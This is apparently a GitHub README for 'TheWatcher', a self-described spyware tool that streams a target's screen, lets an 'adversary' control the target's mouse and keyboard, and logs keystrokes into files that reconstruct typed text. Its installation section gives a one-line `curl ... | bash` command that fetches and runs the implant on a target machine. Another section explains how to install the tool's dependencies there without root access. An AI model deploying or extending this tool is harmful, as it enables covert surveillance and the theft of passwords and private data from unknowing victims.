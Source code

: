 # TheWatcher
A spyware you should  be aware of 👀!

## Introduction
The watcher is a spyware program that has the ability to share screen, control mouse and keyboard and log keyboard of the target machine.

## Components
- **Server** : The part of the code that runs on the server. It acts as a points of contact for target machine and the adversary(watcher) machine. This is required as the target and watcher cannot communicate from being within their private networks. Using a server allows multiple watchers. It also avoids the condition when watcher is down and target keeps trying to connect to it (if watcher and target are on the same network).
- **Target** : The part of the code that runs on the target machine. It takes instructions from the server (sent by the watcher) and works on it to let the watcher do whatever it wants.
- **Watcher** : The part of the code that runs on the adversary's machine. It lets the adversary send intructions to the target machine through the server.

## Capabilities
- **Screen Reader** : The target screen reader takes screenshots of the target desktop periodically and sends them to the server. The server sends them to all the watcher screen readers who had requested to watch that target.
- **Controller** : The target controller receives controll events from the server (that were sent by the watcher controller) and controls the mouse or keyboard accordingly.
- **Keylogger** : The keylogger listens for keyboard events and sends them to the server. The server sends them to all the watchers watching that target. The watcher keylogger logs the keys in three different files in different ways (file names shown in parenthesis):
    1. The key codes along with action (press or release) (keys\<timestamp\>.vk)
    2. All the key names along with press of release (shown using ⬇️ and ⬆️). (keys\<timestamp\>.verbose)
    3. Only the printable characters. Approximately as typed by the target user. (keys\<timestamp\>.log)

## Installation
```bash
git clone https://github.com/AbhinavYdv/TheWatcher.git
cd TheWatcher

# --- Configuration
# Inside the Watcher, Server and Target directories, their is a Base/settings.py file.
# Set the address and port of your server their.
# These values should be same in the settings.py files of all three.

# --- Server Installation
# copy the 'Server' folder to your server machine and cd into it.
# copy the 'Files' folder to your server machine in the same directory where 'Server' is located
virtualenv .venv
source .venv/bin/activate
pip install pillow
python main.py

# --- Watcher Installation
# copy The 'Watcher' folder to adversary machine and cd into it.
virtualenv .venv
source .venv/bin/activate
pip install pynput kivymd pillow
python main.py

# --- Target Installation
zip -r Target.zip Target
# copy this Target.zip file to 'Files' folder on your server
# run the following on a target machine to install and run target code on it.
curl <server-url>:<server-port>/target_bootstrap.sh | bash
```

## The Watcher in action
The image below shows the screenreader able to watch the other machine running inside virtualbox.
![screen_reader](Screenshots/screen_reader.png)

## References
### Screenshot
- mss
    - https://stackoverflow.com/questions/51966558/convert-mss-screenshot-to-pil-image
    - https://stackoverflow.com/questions/71453766/how-to-take-a-screenshot-from-part-of-screen-with-mss-python
- pygobject
    - https://stackoverflow.com/a/782768

### Keylogging and controlling
- [pynput docs](https://pynput.readthedocs.io/en/latest/)

### Miscellaneous
- https://docs.python.org/3/library/io.html

## Research done
- Install linux packages required by our target code on target system without root privileges.
    - Download the required packages using `apt download <package-name>`
    - extarct it using `dpkg -x <file-name>`
    - copy `usr/lib` to `.venv/lib`(virtual env created on target system)
    - copy `usr/include` to `.venv/include`
- Convert keycodes of pynput to characters.
    - went through the source code of pynput to figure out from where is the keycode originating.
    - copied the required data strutures to my code and created functions to convert code to character.
